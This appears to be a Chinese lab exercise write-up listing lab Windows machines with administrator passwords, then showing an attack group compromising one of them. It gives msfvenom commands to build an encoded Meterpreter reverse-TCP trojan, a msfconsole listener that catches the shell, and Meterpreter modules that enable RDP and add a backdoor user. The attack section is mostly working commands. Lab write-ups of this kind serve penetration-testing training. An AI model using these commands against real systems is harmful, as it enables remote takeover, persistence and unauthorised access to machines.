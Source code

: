 4号
账号:administrator
密码:Win@2003

ip：192.168.141.114

5号
账号：Administrator
密码：Win@2008

ip：192.168.141.115

6号
账号：Administrator
密码：Edvison233!

ip：192.168.141.116


# B组(攻击组)
# 使用kali拿下二号机
通过MobaXterm连接Kali Linux(ip:192.168.141.143)，用户名:root，密码:toor
![](https://upload-images.jianshu.io/upload_images/7216746-b086c475865a0199.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

使用下述命令，执行，生成木马文件:
```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=192.168.141.143 LPORT=4444 -f exe > ./test.exe
```
![](https://upload-images.jianshu.io/upload_images/7216746-a0be7e99c5810789.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

生成了test.exe之后，然后在kali里，设定端口监听，等待目标上线
```
msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp;show options; set LHOST 192.168.141.143;set LPORT 4444; run"

```
![](https://upload-images.jianshu.io/upload_images/7216746-29d723f0db0c5d74.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在2号机上右击，以管理员权限执行。kali就可以接收到反弹回来的shell。对shell进行操作。

在kali里接收到了shell，可在meterpreter中管理shell，开启3389
![](https://upload-images.jianshu.io/upload_images/7216746-32d92423d0257169.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在kali里接收到了shell，可在meterpreter中管理shell，开启3389
```
run post/windows/manage/enable_rdp
```

添加用户
```
run post/windows/manage/enable_rdp username="Waldo1111test" password="123456hhhh."
```
